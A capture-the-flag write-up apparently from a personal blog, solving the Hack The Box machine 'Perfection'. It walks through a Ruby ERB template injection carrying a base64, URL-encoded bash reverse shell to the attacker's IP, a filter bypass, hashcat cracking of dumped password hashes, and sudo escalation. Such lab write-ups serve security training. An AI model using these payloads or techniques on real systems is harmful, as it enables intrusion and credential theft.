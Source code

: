 ```yaml
---
title: Hack the box Perfection pwned!
date: 2024-03-10 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, perfection, ruby, ssti, password cracking]
img_path: /assets/img/posts/
---
```


![Perfection info](htb-headless-info.png)
*Perfection info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.108
>
>Target machine (victim, Perfection): 10.10.11.253
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`nmap -Pn -n -sS -p- --open -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.253'

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80, so we browse to `http://10.10.11.253` and we take a look at the web:

![Home](htb-perfection-weighted-grade-calculation-home.png)
*Home*

![About us](htb-perfection-weighted-grade-calculation-about-us.png)
*About us*

![Weighted Grade Calculator](htb-perfection-weighted-grade-calculation-calculate.png)
*Weighted Grade Calculator*

The web contains a too to calculating student grades based on weighting.
If we look at the bottom, we can see that is powered by [WEBrick](https://en.wikipedia.org/wiki/WEBrick).

![Powered by WEBrick](htb-perfection-webrick.png)
*Powered by WEBrick*

[WEBrick](https://en.wikipedia.org/wiki/WEBrick) is a ruby library provinding HTTP web servers.
If we look at more information on the web with wappalizer, we can see that is using Ruby 3.0.2.

![Wappalizer](htb-perfection-wappalizer.png)
*Wappalizer info*

This versions does not seems vulnerable, so we have to try another approach.

## Foothold

### SSTI (Sever Side Template Injection)

As the only place from which we can enter data is the weighted grade calculator, we can try there some [Ruby SSTIs](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby).
The most convenient way is intercepting the request using burp, send it to the burp repeater and modifying it there.
There's a "bad characters" protection, but we can bypass it using url encoding.
Now that we know that there is a SSTI, we can try to inject a reverse shell.
The first thing is start a listener on our machine:

`nc -lvnp 12345`

Now, we need a reverse shell capable to avoid the "bad characters" protection, so we encoded it on base64:

```
echo "bash  -i >& /dev/tcp/10.10.16.108/12345  0>&1" | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg==
```

Now, we wrap it so that the reverse shell will be executed on the server:

`echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg== | base64 -d | bash`


We wrap it so that our payload will be interpreted by ruby taking advantage of the SSTI:

`<%=system("echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg== | base64 -d | bash");%>`

And, finally, we urlencode it:

`%0A<%25%3dsystem("echo+YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA4LzEyMzQ1ICAwPiYxCg==+|+base64+-d+|+bash");%25>`

Now that we have our payload ready, we will inject it on the request using burp:

![Original request](htb-perfection-wgc-request.png)
*Original request*

![Request payload](htb-perfection-wgc-request-payload.png
*Request payload*

>Note the "1" before the payload
{: .prompt-warning}

We send the request and we got shell!

### susan

First thing is upgrading the tty to be able to work comfortably:

``
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can start collecting information about our new user:

```
susan@perfection:~/ruby_app$ whoami
susan
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

```
susan@perfection:~$ ls -lA
drwxr-xr-x 2 root  root    4096 Oct 27 10:36 Migration
drwxr-xr-x 4 root  susan   4096 Oct 27 10:36 ruby_app
-rw-r----- 1 root  susan     33 Mar 16 19:10 user.txt
```

We got our user flag:

`cat user.txt`

We still  need to escalate privileges, so we keep looking.

```
susan@perfection:~$ ls -R Migration/
Migration/:
pupilpath_credentials.db
susan@perfection:~$ ls -R ruby_app/
ruby_app/:
main.rb  public  views

ruby_app/public:
css  fonts  images

ruby_app/public/css:
font-awesome.min.css  lato.css  montserrat.css  w3.css

ruby_app/public/fonts:
JTUHjIg1_i6t8kCHKm4532VJOt5-QNFgpCtr6Hw5aX8.ttf  S6uyw4BMUTPHjx4wWw.ttf

ruby_app/public/images:
checklist.jpg  lightning.png  susan.jpg  tina.jpg

ruby_app/views:
about.erb  index.erb  weighted_grade.erb  weighted_grade_results.erb
```

We see an interesting file: `pupilpath_credentials.db`, so we are going to continue investigating there:

```
susan@perfection:~$ file Migration/pupilpath_credentials.db
Migration/pupilpath_credentials.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 6, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 6
```

A sqlite database called credentials... Let's see what contains!

```
$ sqlite3 pupilpath_credentials.database

sqlite> .tables
users

sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

We have some users with their passwords hashes.

If we review Susan's mails, we will find some useful information:

```
$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful students
```

Great! We have the password format and the hash, so we can crack it using hashcat.
We will start with `susan`, since it's our current user.

`echo abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f > hash`
`hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d`

After a while we will have Susan's password, and we will look if she has sudo capabilities.

## Privilege escalation

```
$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Nice! She can run all commands as root without password, so we elevate our privileges:

`sudo su`

And, finally, we get our system flag:

`cat /root/root.txt`

![Perfection pwned](htb-perfection-pwned.png)
*Perfection has been pwned*

*Enjoy! ;)*
